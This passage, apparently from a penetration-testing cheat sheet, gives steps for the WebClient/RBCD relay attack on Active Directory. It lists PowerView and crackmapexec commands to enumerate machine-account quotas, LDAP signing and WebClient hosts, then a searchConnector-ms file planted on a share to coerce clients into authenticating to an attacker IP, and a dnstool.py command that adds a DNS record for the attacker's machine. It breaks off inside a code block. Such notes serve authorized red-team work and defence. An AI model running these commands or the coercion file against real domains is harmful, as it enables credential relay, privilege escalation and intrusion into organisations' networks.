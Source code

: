 ````
  - An account with a SPN associated (or able to add new machines accounts (default value this quota is 10))
  - On the network, machines with WebClient running (some OS version had this service running by default or use the webclient starting trick from DTMSecurity). OneDrive, SharePoint and NextCloud also activate this on clients.
  - A DNS record pointing to the attacker’s machine (By default authenticated users can create records)
- https://www.bussink.net/rbcd-webclient-attack/
- The blog says this is a requirement but it isn't "On a Domain Controller to have the LDAPS channel binding not required (default value)". You can relay to LDAP and use your own object with a SPN or relay to LDAPS and it will create it. If LDAP or use a specific user use the ```--escalate-user``` flag.

#### Check who can add computers to the domain
```
(Get-DomainPolicy -Policy DC).PrivilegeRights.SeMachineAccountPrivilege.Trim("*") | Get-DomainObject | Select-Object name

Get-DomainObject | Where-Object ms-ds-machineaccountquota

crackmapexec ldap <DC IP> -d <DOMAIN> -u <USER> -p <PASS> -M maq
```

#### Check LDAP Signing and LDAPS Binding
- https://github.com/zyn3rgy/LdapRelayScan
```
python3 LdapRelayScan.py -method BOTH -dc-ip <IP> -u <USER> -p <PASSWORD>

cme ldap <DC IP> -u <USER> -p <PASSWORD> -M ldap-signing
```

#### Scan for target with webclient active
- https://github.com/Hackndo/WebclientServiceScanner
```
webclientservicescanner <DOMAIN>/<USER>:<PASSWORD>@<IP RANGE> -dc-ip <DC IP>

crackmapexec smb <HOST> -d <DOMAIN> -u <USER> -p <PASSWORD> -M webdav
```

#### If no targets, place file on share to activate webclients
- https://www.bussink.net/webclient_activation/
- Filename ```Documents.searchConnector-ms```
```
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="http://schemas.microsoft.com/windows/2009/searchConnector">
    <iconReference>imageres.dll,-1002</iconReference>
    <description>Microsoft Outlook</description>
    <isSearchOnlyItem>false</isSearchOnlyItem>
    <includeInStartMenuScope>true</includeInStartMenuScope>
    <iconReference>//<ATTACKER IP>/test.ico</iconReference>
    <templateInfo>
        <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
    </templateInfo>
    <simpleLocation>
        <url>//<ATTACKER IP>/test</url>
    </simpleLocation>
</searchConnectorDescription>
```

#### Create a DNS record pointing to the attacker's machine IP
- https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py
- https://github.com/Kevin-Robertson/Powermad/blob/master/Invoke-DNSUpdate.ps1
```
dnstool.py -u <DOMAIN>\<USER> -a add -r <HOSTNAME> -d <ATTACKER IP> <DC IP>

````